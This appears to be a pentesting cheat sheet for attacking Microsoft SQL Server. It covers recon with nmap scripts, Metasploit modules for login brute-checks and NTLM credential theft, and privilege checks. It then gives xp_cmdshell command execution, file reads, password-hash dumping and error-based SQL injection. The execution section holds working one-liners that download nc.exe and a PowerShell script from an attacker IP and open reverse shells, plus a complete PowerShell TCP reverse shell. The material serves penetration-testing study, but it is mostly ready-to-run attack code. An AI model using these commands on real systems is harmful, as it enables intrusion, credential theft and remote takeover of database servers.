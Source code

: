 # sqli ms-sql

## Recon

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 IP
```

## msf modules
* Login check: `use auxiliary/scanner/mssql/mssql_login`
* Steal NTLM-creds: `use auxiliary/admin/mssql/mssql_ntlm_stealer`
  * Start responder: `sudo responder -I tun0`

## [mssqlclient.py](https://github.com/SecureAuthCorp/impacket)

```bash
mssqlclient.py DOMAIN/USER:PASS@$IP [-port <>] [-windows-auth]
```

## Privilege checks

```bash
# to see if we are sysadmin
# returns 1
SELECT IS_SRVROLEMEMBER ('sysadmin')
SELECT IS_SRVROLEMEMBER('sysadmin', 'sa')
SELECT name FROM master..syslogins WHERE sysadmin = '1'
```

## EXEC

### xp_cmdshell

```bash
EXEC sp_configure 'Show Advanced Options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell "whoami";

# shells
EXEC xp_cmdshell "powershell -c (New-Object System.Net.WebClient).DownloadFile('http://IP/nc.exe','c:\Users\Public\nc.exe');"
EXEC xp_cmdshell "c:\Users\Public\nc.exe -e cmd.exe IP PORT"
[OR]
$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
EXEC xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://IP/shell.ps1');"
```

### external_scripts

```bash
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
```

## ms-sql commands

```bash
# comments
--
/* <blah> */

# hostname
@@servername
host_name()

# version
@@version

# read-file
# [C:\boot.ini] OR [C:\\boot.ini]
CREATE TABLE kashz (line varchar(8000));
BULK INSERT kashz FROM '<FILE>';
DROP TABLE kashz;

# users
user_name()
system_user
user [user()]
| SELECT name FROM master..syslogins

# password (SHA-1)
# master.dbo.fn_varbintohexstr(password) => pass to hex-str
# master.sys.fn_varbintohexstr(password_hash) => pass to hex-str
| SELECT name, password FROM master..sysxlogins
| SELECT name, password_hash FROM master.sys.sql_logins

# databases
DB_NAME()
| SELECT name FROM master.sys.databases
| SELECT name FROM master.dbo.sysdatabases
| SELECT name FROM master ..sysdatabases
| EXEC sp_databases
SELECT DB_NAME(N)        # for N:1-n

# tables
SELECT name FROM <DB>..sysobjects WHERE xtype='U'

# cols
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name ='<TABLE>')
SELECT <DB>..syscolumns.name, TYPE_NAME(<DB>..syscolumns.xtype) FROM <DB>..syscolumns, <DB>..sysobjects WHERE <DB>..syscolumns.id=<DB>..sysobjects.id AND <DB>..sysobjects.name='<TABLE>'

# 9th row
SELECT TOP 1 name FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) ORDER BY name DESC
```

## Database File Paths

* [practicalsbs.wordpress.com/sql-server-file-locations-for-default-instances/](https://practicalsbs.wordpress.com/2016/07/03/sql-server-file-locations-for-default-instances/)

```bash
\DATA\master.mdf
\BACKUP\master.mdf
```

## Error-based

Refer: [perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

```bash
# encode + as %2b if doing url-based.
# force the query to run and show output in error page
convert(int, @@version)--
```

## Full pwnage guide

* [exploit-db.com/12975](https://www.exploit-db.com/papers/12975)

## .mdf extract

* [xpn/Powershell-PostExploitation](https://github.com/xpn/Powershell-PostExploitation)
* **known bug:** [xpn/Powershell-PostExploitation/issues/3](https://github.com/xpn/Powershell-PostExploitation/issues/3)

```bash
# fix in code
[System.Reflection.Assembly]::UnsafeLoadFrom($PSScriptRoot + "\OrcaMDF.RawCore.dll") | Out-Null
[System.Reflection.Assembly]::UnsafeLoadFrom($PSScriptRoot + "\OrcaMDF.Framework.dll") | Out-NUll
```

* [blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)